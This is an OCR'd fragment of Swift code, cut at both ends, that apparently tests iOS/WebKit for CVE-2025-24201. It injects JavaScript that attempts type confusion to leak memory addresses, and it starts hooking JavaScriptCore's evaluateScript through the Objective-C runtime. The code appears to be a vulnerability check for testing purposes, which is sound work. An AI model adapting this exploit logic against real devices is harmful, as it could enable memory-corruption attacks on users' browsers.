 ```swift
            confused[obj] = 4.4;
            
            // Attempt to leak memory addresses
            let leaked = confused[0];
            if (typeof leaked !== 'number') {
                console.log('[!] Memory corruption triggered!');
                console.log('[!] Leaked value:', leaked);
            }
        }
        
        // Monitor for crashes
        window.addEventListener('error', function(e) {
            console.log('[!] JavaScript error:', e.message);
            if (e.message.includes('memory')) {
                alert('CVE-2025-24201: WebKit vulnerability detected!');
            }
        });
        
        triggerCorruption();
        """
        
        let userScript = WKUserScript(
            source: script,
            injectionTime: .atDocumentEnd,
            forMainFrameOnly: true
        )
        
        config.userContentController.addUserScript(userScript)
        
        return WKWebView(frame: .zero, configuration: config)
    }
    
    func updateUIView(_ webView: WKWebView, context: Context) {
        // Load test page
        let html = """
        <html>
        <head>
            <title>CVE-2025-24201 Test</title>
        </head>
        <body>
            <h1>WebKit Vulnerability Test</h1>
            <div id="status">Testing...</div>
        </body>
        </html>
        """
        
        webView.loadHTMLString(html, baseURL: nil)
    }
}

// Objective-C runtime hook for testing
@_cdecl("testWebKitVulnerability")
func testWebKitVulnerability() {
    print("[*] Testing for CVE-2025-24201")
    
    // Hook JavaScriptCore functions
    let JSContext = NSClassFromString("JSContext")
    let selector = NSSelectorFromString("evaluateScript:")
    
    if let method = class_getInstanceMethod(JSContext, selector) {
        let originalIMP = method_getImplementation(method)
        
        let block: @convention(block) (AnyObject, String) -> Any? = { (self, script) in
```